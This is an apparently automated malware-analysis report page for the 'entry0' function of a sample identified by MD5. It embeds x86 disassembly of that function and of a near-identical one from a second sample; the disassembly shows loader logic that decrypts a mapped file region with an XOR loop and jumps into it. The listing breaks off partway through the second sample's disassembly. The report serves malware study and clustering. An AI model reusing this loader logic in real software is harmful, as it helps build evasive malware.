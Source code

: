 ```yaml
---
layout: post
title:  "entry0 @ 3a783d6a0e3505903843983e413a529e"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** entry0
- **Origin (md5):** 3a783d6a0e3505903843983e413a529e
- **VirusTotal:** [virustotal.com/gui/file/3a783d6a0e3505903843983e413a529e][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="MEMORY">MEMORY</span>
<span class="tag" id="PROCESS">PROCESS</span>
<span class="tag" id="LINKING">LINKING</span>


# Behaviour Tags
<span class="bhv-tag" id="SCREENSHOTS_FOREGROUND_WINDOW">SCREENSHOTS_FOREGROUND_WINDOW / 0.08800140888205331</span><span class="bhv-tag" id="CREATES_SOCKET_LISTENER">CREATES_SOCKET_LISTENER / 0.027642519777300326</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [-236.66973876953125, -235.79159545898438, '<b><a href="/report/entry0@3a783d6a0e3505903843983e413a529e">entry0</a><br>@3a783d6a0e3505903843983e413a529e</b><br>push ebp<br>mov ebp, esp<br>and esp, 0xfffffff8<br>sub esp, 0x88c<br>xor ecx, ecx<br>push ebx<br>push esi<br>mov ebx, ecx<br>push edi<br>mov dword[esp+0x10], ebx<br>mov dword[esp+0x4c], ecx<br>mov dword[esp+0x34], ecx<br>mov dword[esp+0x2c], ecx<br>mov dword[esp+0x1c], ecx<br>mov dword[esp+0x50], ecx<br>mov dword[esp+0x20], ecx<br>mov dword[esp+0x54], ecx<br>call fcn.00402322<br>mov esi, dword[sym.imp.KERNEL32.dll_GetTickCount]<br>call esi<br>and eax, 0x11<br>mov dword[esp+0x3c], 3<br>cmp eax, 0x111<br>je 0x4028f0<br>call esi<br>mov dword[0x406040], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x18], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x30], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x24], eax<br>jmp 0x4029c1<br>mov eax, dword[esp+0x20]<br>mov ecx, dword[esp+0x20]<br>mov dword[esp+0x30], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x18], ecx<br>mov dword[esp+0x24], eax<br>mov esi, ebx<br>push 4<br>push 0x1000<br>push ecx<br>push 0<br>call dword[sym.imp.KERNEL32.dll_VirtualAlloc]<br>mov edi, eax<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div dword[esp+0x3c]<br>test ecx, 0xffff8000<br>je 0x40294c<br>test edx, edx<br>je 0x403128<br>cmp edx, 1<br>je 0x4029c1<br>mov ecx, dword[esp+0x18]<br>jmp 0x40290a<br>mov eax, dword[esp+0x30]<br>mov dword[esp+0x64], eax<br>mov eax, dword[esp+0x50]<br>mov dword[esp+0x60], eax<br>mov eax, dword[esp+0x18]<br>lea ecx, [esp+0x60]<br>mov dword[esp+0x70], eax<br>mov dword[esp+0x6c], edi<br>call fcn.00403800<br>cmp eax, 1<br>jne 0x403198<br>push esi<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>push dword[esp+0x2c]<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div dword[esp+0x3c]<br>test ecx, 0xffff8000<br>je 0x4030da<br>test edx, edx<br>je 0x403128<br>mov ecx, dword[esp+0x18]<br>cmp edx, 1<br>jne 0x40290a<br>mov esi, dword[esp+0x1c]<br>push 3<br>pop edi<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div edi<br>test ecx, 0xffff8000<br>jne 0x402e75<br>push ecx<br>call fcn.004024e2<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div edi<br>test ecx, 0xffff8000<br>jne 0x402e75<br>call fcn.0040348a<br>mov edi, dword[sym.imp.KERNEL32.dll_GetCommandLineW]<br>push 0x401378<br>lea esi, [eax+0xfe0]<br>call edi<br>push eax<br>call dword[0x406008]<br>test eax, eax<br>setne al<br>pop ecx<br>pop ecx<br>mov byte[esp+0x2b], al<br>test al, al<br>je 0x402a66<br>push 0x401234<br>call edi<br>push eax<br>call dword[0x406008]<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x402a66<br>mov ecx, esi<br>mov byte[esp+0x17], 1<br>call fcn.004031d7<br>test al, al<br>je 0x4031a3<br>xor ecx, ecx<br>jmp 0x402a7f<br>xor ecx, ecx<br>cmp dword[esi], 0x696d7678<br>mov byte[esp+0x17], cl<br>jne 0x402a7d<br>cmp dword[esi+4], 0x74636a6e<br>je 0x402a7f<br>mov esi, ecx<br>test esi, esi<br>je 0x402cc9<br>mov ebx, dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>push ecx<br>push ecx<br>push ecx<br>push 6<br>push dword[esi+0x18]<br>call ebx<br>mov edi, eax<br>mov dword[esp+0x10], edi<br>test edi, edi<br>je 0x403026<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 6<br>push dword[edi+0x1c]<br>call ebx<br>mov ebx, eax<br>mov dword[esp+0x4c], ebx<br>test ebx, ebx<br>je 0x40301b<br>mov ecx, dword[ebx+0x48]<br>cmp ecx, 0x3fc<br>jae 0x403006<br>mov eax, dword[ebx+0x4c]<br>add ecx, ecx<br>push ecx<br>add eax, ebx<br>push eax<br>lea eax, [esp+0xa8]<br>push eax<br>call dword[0x406020]<br>mov eax, dword[ebx+0x48]<br>xor ecx, ecx<br>mov word[esp+eax*2+0xac], cx<br>mov eax, dword[edi+0x40]<br>xor esi, esi<br>add esp, 0xc<br>xor ebx, ebx<br>mov dword[esp+0x38], esi<br>test eax, eax<br>je 0x402b30<br>cmp dword[edi+0x44], ecx<br>je 0x402b30<br>lea eax, [eax*2+2]<br>push eax<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetProcessHeap]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_HeapAlloc]<br>mov ebx, eax<br>test ebx, ebx<br>jne 0x402b3a<br>push ecx<br>push 0x401404<br>jmp 0x40319e<br>cmp byte[esp+0x17], cl<br>jne 0x402ffb<br>mov eax, dword[edi+0x50]<br>test eax, eax<br>je 0x402b72<br>cmp dword[edi+0x54], esi<br>je 0x402b72<br>lea eax, [eax*2+2]<br>push eax<br>push 0<br>call dword[sym.imp.KERNEL32.dll_GetProcessHeap]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_HeapAlloc]<br>mov esi, eax<br>mov dword[esp+0x38], esi<br>test esi, esi<br>jne 0x402b7d<br>push ecx<br>push 0x40142c<br>jmp 0x40319e<br>cmp byte[esp+0x2b], 0<br>jne 0x402ff0<br>mov eax, dword<br>mov eax, dword[eax+0x30]<br>mov edi, dword[eax+0x10]<br>test ebx, ebx<br>je 0x402bbf<br>mov ecx, dword[esp+0x10]<br>mov eax, dword[ecx+0x40]<br>add eax, eax<br>push eax<br>mov eax, dword[ecx+0x44]<br>add eax, ecx<br>push eax<br>push ebx<br>call dword[0x406020]<br>mov eax, dword[esp+0x1c]<br>add esp, 0xc<br>mov eax, dword[eax+0x40]<br>xor ecx, ecx<br>mov word[ebx+eax*2], cx<br>push ebx<br>lea eax, [edi+0x38]<br>push eax<br>call dword[0x406030]<br>test esi, esi<br>je 0x402c4f<br>mov ecx, dword[esp+0x10]<br>mov eax, dword[ecx+0x50]<br>add eax, eax<br>push eax<br>mov eax, dword[ecx+0x54]<br>add eax, ecx<br>push eax<br>push esi<br>call dword[0x406020]<br>mov eax, dword[esp+0x1c]<br>add esp, 0xc<br>mov eax, dword[eax+0x50]<br>push esi<br>xor ecx, ecx<br>add edi, 0x40<br>push edi<br>mov word[esi+eax*2], cx<br>call dword[0x406030]<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetCommandLineW]<br>push eax<br>call dword[section..data]<br>pop ecx<br>pop ecx<br>call dword[sym.imp.KERNEL32.dll_GetCommandLineA]<br>mov esi, eax<br>test esi, esi<br>je 0x402c4b<br>push 8<br>lea eax, [esp+0x5c]<br>push 0<br>push eax<br>call dword[0x40601c]<br>add esp, 0xc<br>lea eax, [esp+0x58]<br>push 1<br>push edi<br>push eax<br>call dword[0x40602c]<br>test eax, eax<br>js 0x402c48<br>push dword[esp+0x5c]<br>push esi<br>call dword[0x406010]<br>pop ecx<br>pop ecx<br>jmp 0x402c4b<br>mov byte[esi], 0<br>mov esi, dword[esp+0x38]<br>call fcn.004034cb<br>test al, al<br>je 0x402cf1<br>call fcn.0040348a<br>mov ecx, dword[eax+0x20]<br>xor edx, edx<br>cmp dword[eax+0x24], edx<br>ja 0x402cf1<br>jb 0x402c79<br>cmp ecx, 0x7fff0000<br>jae 0x402cf1<br>test ebx, ebx<br>je 0x402ca1<br>mov dword[ecx+0x68], ebx<br>mov ebx, dword[esp+0x10]<br>mov dword[ecx+0x6c], edx<br>mov ax, word[ebx+0x40]<br>add ax, ax<br>mov word[ecx+0x60], ax<br>mov ax, word[ebx+0x40]<br>inc ax<br>add ax, ax<br>mov word[ecx+0x62], ax<br>jmp 0x402ca5<br>mov ebx, dword[esp+0x10]<br>test esi, esi<br>je 0x402cf5<br>mov dword[ecx+0x78], esi<br>mov dword[ecx+0x7c], edx<br>mov ax, word[ebx+0x50]<br>add ax, ax<br>mov word[ecx+0x70], ax<br>mov ax, word[ebx+0x50]<br>inc ax<br>add ax, ax<br>mov word[ecx+0x72], ax<br>jmp 0x402cf5<br>mov esi, 0x3fc<br>push esi<br>lea eax, [esp+0xa4]<br>push eax<br>push ecx<br>call dword[sym.imp.KERNEL32.dll_GetModuleFileNameW]<br>test eax, eax<br>je 0x402ce6<br>cmp eax, esi<br>jne 0x402cf5<br>push ecx<br>push 0x401454<br>jmp 0x403147<br>mov ebx, dword[esp+0x10]<br>push 0x5c<br>pop eax<br>cmp word[esp+0xa0], ax<br>jne 0x402d15<br>cmp word[esp+0xa2], ax<br>jne 0x402d15<br>lea esi, [esp+0xa0]<br>jmp 0x402d34<br>push 8<br>lea eax, [esp+0x9c]<br>push 0x401678<br>push eax<br>call dword[0x406020]<br>add esp, 0xc<br>lea esi, [esp+0x98]<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>push 3<br>xor edx, edx<br>mov eax, ecx<br>pop edi<br>div edi<br>test ecx, 0xffff8000<br>je 0x402d6c<br>test edx, edx<br>je 0x403128<br>mov esi, dword[esp+0x1c]<br>cmp edx, 1<br>jne 0x402946<br>jmp 0x4029c8<br>push ecx<br>push esi<br>call fcn.0040249a<br>push ecx<br>push 0x401468<br>call fcn.0040249a<br>xor eax, eax<br>push eax<br>push eax<br>push edi<br>push eax<br>push 7<br>push 0x80000000<br>push esi<br>call dword[sym.imp.KERNEL32.dll_CreateFileW]<br>mov edi, eax<br>mov dword[esp+0x34], edi<br>cmp edi, 0xffffffff<br>je 0x4030d2<br>call fcn.00403547<br>mov esi, dword[esp+0x1c]<br>test eax, eax<br>jne 0x4029c5<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 2<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov dword[esp+0x2c], eax<br>test eax, eax<br>je 0x4030ca<br>push 0x1000<br>push 0<br>push 0<br>push 4<br>push eax<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov edi, eax<br>test edi, edi<br>je 0x4030c2<br>mov ecx, edi<br>call fcn.00402537<br>push edi<br>mov esi, eax<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>lea eax, [esp+0x40]<br>push eax<br>push dword[esp+0x38]<br>call dword[sym.imp.KERNEL32.dll_GetFileSizeEx]<br>test eax, eax<br>je 0x4030b7<br>xor eax, eax<br>push eax<br>mov ecx, esi<br>add ecx, 0x1000<br>pop edx<br>adc eax, edx<br>cmp dword[esp+0x44], eax<br>jl 0x403089<br>jg 0x402e34<br>cmp dword[esp+0x40], ecx<br>jbe 0x403089<br>lea eax, [esi+0x1000]<br>push eax<br>push edx<br>push edx<br>push 4<br>push dword[esp+0x3c]<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov esi, eax<br>mov dword[esp+0x1c], esi<br>test esi, esi<br>je 0x40307e<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>push 3<br>xor edx, edx<br>mov eax, ecx<br>pop edi<br>div edi<br>test ecx, 0xffff8000<br>je 0x402e8b<br>test edx, edx<br>je 0x403128<br>cmp edx, 1<br>je 0x4029c8<br>jmp 0x402946<br>mov ecx, esi<br>call fcn.00402537<br>mov esi, eax<br>add esi, dword[esp+0x1c]<br>push 4<br>pop ebx<br>mov ecx, dword[esi]<br>add esi, ebx<br>cmp ecx, 0x6d7678<br>jne 0x403073<br>mov ecx, dword[esi]<br>add esi, ebx<br>cmp ecx, edi<br>jne 0x403068<br>mov edx, dword[esi]<br>mov edi, edx<br>imul edi, edi, 0x8088405<br>add esi, ebx<br>inc edi<br>mov ecx, dword[esi]<br>mov eax, edi<br>xor eax, edx<br>add esi, ebx<br>cmp eax, ecx<br>jne 0x40305d<br>mov ecx, dword[esi]<br>mov edx, edi<br>imul edx, edx, 0x8088405<br>inc edx<br>mov eax, edx<br>xor eax, edi<br>add esi, ebx<br>cmp eax, ecx<br>jne 0x403052<br>mov eax, dword[esi]<br>imul edx, edx, 0x8088405<br>inc edx<br>xor eax, edx<br>imul edx, edx, 0x8088405<br>add esi, ebx<br>inc edx<br>mov ecx, dword[esi]<br>xor ecx, edx<br>imul edx, edx, 0x2b9ad7e7<br>mov dword[esp+0x24], 0x8088406<br>sub dword[esp+0x24], edx<br>mov edx, dword[esp+0x24]<br>xor edx, dword[esi+8]<br>mov dword[esp+0x18], eax<br>mov eax, dword[esp+0x1c]<br>lea ebx, [esi+8]<br>sub ebx, eax<br>add ebx, 4<br>add edx, ebx<br>add edx, ecx<br>push eax<br>mov dword[esp+0x34], ecx<br>mov dword[esp+0x28], edx<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>push dword[esp+0x2c]<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 8<br>push eax<br>push dword[esp+0x48]<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov ecx, eax<br>mov dword[esp+0x2c], ecx<br>test ecx, ecx<br>je 0x403047<br>mov eax, dword[esp+0x30]<br>add eax, ebx<br>push eax<br>push 0<br>push 0<br>push 1<br>push ecx<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov esi, eax<br>mov dword[esp+0x1c], esi<br>test esi, esi<br>je 0x40303c<br>lea eax, [ebx+esi]<br>mov dword[esp+0x50], eax<br>mov ecx, eax<br>mov eax, dword[esp+0x30]<br>test eax, eax<br>je 0x402fb7<br>mov edx, eax<br>imul edi, edi, 0x343fd<br>add edi, 0x269ec3<br>mov eax, edi<br>shr eax, 0x10<br>xor byte[ecx], al<br>inc ecx<br>dec edx<br>jne 0x402fa0<br>xor eax, eax<br>push ecx<br>push ecx<br>lea ecx, [esp+0x68]<br>mov dword[esp+0x88], eax<br>mov dword[esp+0x8c], eax<br>mov dword[esp+0x90], eax<br>mov dword[esp+0x6c], eax<br>mov dword[esp+0x68], eax<br>call fcn.004036e0<br>pop ecx<br>pop ecx<br>test eax, eax<br>jne 0x403031<br>mov ebx, dword[esp+0x10]<br>jmp 0x402946<br>push ecx<br>push 0x401440<br>jmp 0x40319e<br>push ecx<br>push 0x401418<br>jmp 0x40319e<br>push ecx<br>push 0x4013f0<br>call fcn.0040249a<br>push 0xa<br>push dword[ebx+0x48]<br>jmp 0x403155<br>push ecx<br>push 0x4013dc<br>jmp 0x403147<br>push ecx<br>push 0x4013c8<br>jmp 0x403147<br>push ecx<br>push 0x401588<br>jmp 0x40319e<br>push ecx<br>push 0x401574<br>jmp 0x403147<br>push ecx<br>push 0x401560<br>jmp 0x403147<br>push ecx<br>push 0x401550<br>jmp 0x40319e<br>push ecx<br>push 0x401540<br>jmp 0x40319e<br>push ecx<br>push 0x401530<br>jmp 0x40319e<br>push ecx<br>push 0x401520<br>jmp 0x40319e<br>push ecx<br>push 0x40150c<br>jmp 0x403147<br>push ecx<br>push 0x4014f8<br>call fcn.0040249a<br>push 0xa<br>push dword[esp+0x44]<br>mov ecx, 0x406048<br>call fcn.00402433<br>push ecx<br>push 0x401468<br>call fcn.0040249a<br>push 0xa<br>push esi<br>jmp 0x403155<br>push ecx<br>push 0x4014e4<br>jmp 0x403147<br>push ecx<br>push 0x4014d0<br>jmp 0x403147<br>push ecx<br>push 0x4014bc<br>jmp 0x403147<br>push ecx<br>push 0x401470<br>jmp 0x403147<br>mov ecx, edi<br>call fcn.00402617<br>push 0x8000<br>push dword[esp+0x1c]<br>mov esi, eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_VirtualFree]<br>test esi, esi<br>je 0x4031a3<br>mov ecx, esi<br>call fcn.004034ee<br>mov ecx, esi<br>call fcn.0040258e<br>mov dword[esp+0x20], eax<br>test eax, eax<br>jne 0x40311c<br>push ecx<br>push 0x4015b0<br>jmp 0x40319e<br>push 0<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]<br>mov dword[esp+0x54], eax<br>mov edi, dword[esp+0x34]<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 2<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov esi, eax<br>test esi, esi<br>jne 0x403161<br>push ecx<br>push 0x4015c0<br>call fcn.0040249a<br>push 0xa<br>call dword[sym.imp.KERNEL32.dll_GetLastError]<br>push eax<br>mov ecx, 0x406048<br>call fcn.00402433<br>jmp 0x4031a3<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov eax, dword[esp+0x4c]<br>push eax<br>mov eax, dword[esp+0x28]<br>push ebx<br>add eax, 0xffff<br>and eax, 0xffff0000<br>push eax<br>push dword[esp+0x50]<br>push dword[esp+0x50]<br>push esi<br>push dword[esp+0x6c]<br>call dword[esp+0x3c]<br>add esp, 0x1c<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br>push ecx<br>push 0x401598<br>call fcn.0040249a<br>push 0x4015d4<br>push 0x4015e0<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryW]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>push 0x10<br>push 0x4015f8<br>push 0x406048<br>push 0<br>call eax<br>push 0xffffffffffffffff<br>call dword[sym.imp.KERNEL32.dll_ExitProcess]<br><eoc> ', 'point { fill-color: #e0440e; }'],
[708.4415893554688, -956.2022094726562, '<b><a href="/report/entry0@57989f43bf24a9272122210a17558c3d">entry0</a><br>@57989f43bf24a9272122210a17558c3d</b><br>push ebp<br>mov ebp, esp<br>and esp, 0xfffffff8<br>sub esp, 0x88c<br>xor ecx, ecx<br>push ebx<br>push esi<br>mov ebx, ecx<br>push edi<br>mov dword[esp+0x10], ebx<br>mov dword[esp+0x4c], ecx<br>mov dword[esp+0x34], ecx<br>mov dword[esp+0x2c], ecx<br>mov dword[esp+0x1c], ecx<br>mov dword[esp+0x50], ecx<br>mov dword[esp+0x20], ecx<br>mov dword[esp+0x54], ecx<br>call fcn.00402322<br>mov esi, dword[sym.imp.KERNEL32.dll_GetTickCount]<br>call esi<br>and eax, 0x11<br>mov dword[esp+0x3c], 3<br>cmp eax, 0x111<br>je 0x4028f0<br>call esi<br>mov dword[0x406040], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x18], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x30], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x24], eax<br>jmp 0x4029c1<br>mov eax, dword[esp+0x20]<br>mov ecx, dword[esp+0x20]<br>mov dword[esp+0x30], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x18], ecx<br>mov dword[esp+0x24], eax<br>mov esi, ebx<br>push 4<br>push 0x1000<br>push ecx<br>push 0<br>call dword[sym.imp.KERNEL32.dll_VirtualAlloc]<br>mov edi, eax<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div dword[esp+0x3c]<br>test ecx, 0xffff8000<br>je 0x40294c<br>test edx, edx<br>je 0x403128<br>cmp edx, 1<br>je 0x4029c1<br>mov ecx, dword[esp+0x18]<br>jmp 0x40290a<br>mov eax, dword[esp+0x30]<br>mov dword[esp+0x64], eax<br>mov eax, dword[esp+0x50]<br>mov dword[esp+0x60], eax<br>mov eax, dword[esp+0x18]<br>lea ecx, [esp+0x60]<br>mov dword[esp+0x70], eax<br>mov dword[esp+0x6c], edi<br>call fcn.00403800<br>cmp eax, 1<br>jne 0x403198<br>push esi<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>push dword[esp+0x2c]<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div dword[esp+0x3c]<br>test ecx, 0xffff8000<br>je 0x4030da<br>test edx, edx<br>je 0x403128<br>mov ecx, dword[esp+0x18]<br>cmp edx, 1<br>jne 0x40290a<br>mov esi, dword[esp+0x1c]<br>push 3<br>pop edi<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div edi<br>test ecx, 0xffff8000<br>jne 0x402e75<br>push ecx<br>call fcn.004024e2<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div edi<br>test ecx, 0xffff8000<br>jne 0x402e75<br>call fcn.0040348a<br>mov edi, dword[sym.imp.KERNEL32.dll_GetCommandLineW]<br>push 0x401378<br>lea esi, [eax+0xfe0]<br>call edi<br>push eax<br>call dword[0x406008]<br>test eax, eax<br>setne al<br>pop ecx<br>pop ecx<br>mov byte[esp+0x2b], al<br>test al, al<br>je 0x402a66<br>push 0x401234<br>call edi<br>push eax<br>call dword[0x406008]<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x402a66<br>mov ecx, esi<br>mov byte[esp+0x17], 1<br>call fcn.004031d7<br>test al, al<br>je 0x4031a3<br>xor ecx, ecx<br>jmp 0x402a7f<br>xor ecx, ecx<br>cmp dword[esi], 0x696d7678<br>mov byte[esp+0x17], cl<br>jne 0x402a7d<br>cmp dword[esi+4], 0x74636a6e<br>je 0x402a7f<br>mov esi, ecx<br>test esi, esi<br>je 0x402cc9<br>mov ebx, dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>push ecx<br>push ecx<br>push ecx<br>push 6<br>push dword[esi+0x18]<br>call ebx<br>mov edi, eax<br>mov dword[esp+0x10], edi<br>test edi, edi<br>je 0x403026<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 6<br>push dword[edi+0x1c]<br>call ebx<br>mov ebx, eax<br>mov dword[esp+0x4c], ebx<br>test ebx, ebx<br>je 0x40301b<br>mov ecx, dword[ebx+0x48]<br>cmp ecx, 0x3fc<br>jae 0x403006<br>mov eax, dword[ebx+0x4c]<br>add ecx, ecx<br>push ecx<br>add eax, ebx<br>push eax<br>lea eax, [esp+0xa8]<br>push eax<br>call dword[0x406020]<br>mov eax, dword[ebx+0x48]<br>xor ecx, ecx<br>mov word[esp+eax*2+0xac], cx<br>mov eax, dword[edi+0x40]<br>xor esi, esi<br>add esp, 0xc<br>xor ebx, ebx<br>mov dword[esp+0x38], esi<br>test eax, eax<br>je 0x402b30<br>cmp dword[edi+0x44], ecx<br>je 0x402b30<br>lea eax, [eax*2+2]<br>push eax<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetProcessHeap]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_HeapAlloc]<br>mov ebx, eax<br>test ebx, ebx<br>jne 0x402b3a<br>push ecx<br>push 0x401404<br>jmp 0x40319e<br>cmp byte[esp+0x17], cl<br>jne 0x402ffb<br>mov eax, dword[edi+0x50]<br>test eax, eax<br>je 0x402b72<br>cmp dword[edi+0x54], esi<br>je 0x402b72<br>lea eax, [eax*2+2]<br>push eax<br>push 0<br>call dword[sym.imp.KERNEL32.dll_GetProcessHeap]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_HeapAlloc]<br>mov esi, eax<br>mov dword[esp+0x38], esi<br>test esi, esi<br>jne 0x402b7d<br>push ecx<br>push 0x40142c<br>jmp 0x40319e<br>cmp byte[esp+0x2b], 0<br>jne 0x402ff0<br>mov eax, dword<br>mov eax, dword[eax+0x30]<br>mov edi, dword[eax+0x10]<br>test ebx, ebx<br>je 0x402bbf<br>mov ecx, dword[esp+0x10]<br>mov eax, dword[ecx+0x40]<br>add eax, eax<br>push eax<br>mov eax, dword[ecx+0x44]<br>add eax, ecx<br>push eax<br>push ebx<br>call dword[0x406020]<br>mov eax, dword[esp+0x1c]<br>add esp, 0xc<br>mov eax, dword[eax+0x40]<br>xor ecx, ecx<br>mov word[ebx+eax*2], cx<br>push ebx<br>lea eax, [edi+0x38]<br>push eax<br>call dword[0x406030]<br>test esi, esi<br>je 0x402c4f<br>mov ecx, dword[esp+0x10]<br>mov eax, dword[ecx+0x50]<br>add eax, eax<br>push eax<br>mov eax, dword[ecx+0x54]<br>add eax, ecx<br>push eax<br>push esi<br>call dword[0x406020]<br>mov eax, dword[esp+0x1c]<br>add esp, 0xc<br>mov eax, dword[eax+0x50]<br>push esi<br>xor ecx, ecx<br>add edi, 0x40<br>push edi<br>mov word[esi+eax*2], cx<br>call dword[0x406030]<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetCommandLineW]<br>push eax<br>call dword[section..data]<br>pop ecx<br>pop ecx<br>call dword[sym.imp.KERNEL32.dll_GetCommandLineA]<br>mov esi, eax<br>test esi, esi<br>je 0x402c4b<br>push 8<br>lea eax, [esp+0x5c]<br>push 0<br>push eax<br>call dword[0x40601c]<br>add esp, 0xc<br>lea eax, [esp+0x58]<br>push 1<br>push edi<br>push eax<br>call dword[0x40602c]<br>test eax, eax<br>js 0x402c48<br>push dword[esp+0x5c]<br>push esi<br>call dword[0x406010]<br>pop ecx<br>pop ecx<br>jmp 0x402c4b<br>mov byte[esi], 0<br>mov esi, dword[esp+0x38]<br>call fcn.004034cb<br>test al, al<br>je 0x402cf1<br>call fcn.0040348a<br>mov ecx, dword[eax+0x20]<br>xor edx, edx<br>cmp dword[eax+0x24], edx<br>ja 0x402cf1<br>jb 0x402c79<br>cmp ecx, 0x7fff0000<br>jae 0x402cf1<br>test ebx, ebx<br>je 0x402ca1<br>mov dword[ecx+0x68], ebx<br>mov ebx, dword[esp+0x10]<br>mov dword[ecx+0x6c], edx<br>mov ax, word[ebx+0x40]<br>add ax, ax<br>mov word[ecx+0x60], ax<br>mov ax, word[ebx+0x40]<br>inc ax<br>add ax, ax<br>mov word[ecx+0x62], ax<br>jmp 0x402ca5<br>mov ebx, dword[esp+0x10]<br>test esi, esi<br>je 0x402cf5<br>mov dword[ecx+0x78], esi<br>mov dword[ecx+0x7c], edx<br>mov ax, word[ebx+0x50]<br>add ax, ax<br>mov word[ecx+0x70], ax<br>mov ax, word[ebx+0x50]<br>inc ax<br>add ax, ax<br>mov word[ecx+0x72], ax<br>jmp 0x402cf5<br>mov esi, 0x3fc<br>push esi<br>lea eax, [esp+0xa4]<br>push eax<br>push ecx<br>call dword[sym.imp.KERNEL32.dll_GetModuleFileNameW]<br>test eax, eax<br>je 0x402ce6<br>cmp eax, esi<br>jne 0x402cf5<br>push ecx<br>push 0x401454<br>jmp 0x403147<br>mov ebx, dword[esp+0x10]<br>push 0x5c<br>pop eax<br>cmp word[esp+0xa0], ax<br>jne 0x402d15<br>cmp word[esp+0xa2], ax<br>jne 0x402d15<br>lea esi, [esp+0xa0]<br>jmp 0x402d34<br>push 8<br>lea eax, [esp+0x9c]<br>push 0x401678<br>push eax<br>call dword[0x406020]<br>add esp, 0xc<br>lea esi, [esp+0x98]<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>push 3<br>xor edx, edx<br>mov eax, ecx<br>pop edi<br>div edi<br>test ecx, 0xffff8000<br>je 0x402d6c<br>test edx, edx<br>je 0x403128<br>mov esi, dword[esp+0x1c]<br>cmp edx, 1<br>jne 0x402946<br>jmp 0x4029c8<br>push ecx<br>push esi<br>call fcn.0040249a<br>push ecx<br>push 0x401468<br>call fcn.0040249a<br>xor eax, eax<br>push eax<br>push eax<br>push edi<br>push eax<br>push 7<br>push 0x80000000<br>push esi<br>call dword[sym.imp.KERNEL32.dll_CreateFileW]<br>mov edi, eax<br>mov dword[esp+0x34], edi<br>cmp edi, 0xffffffff<br>je 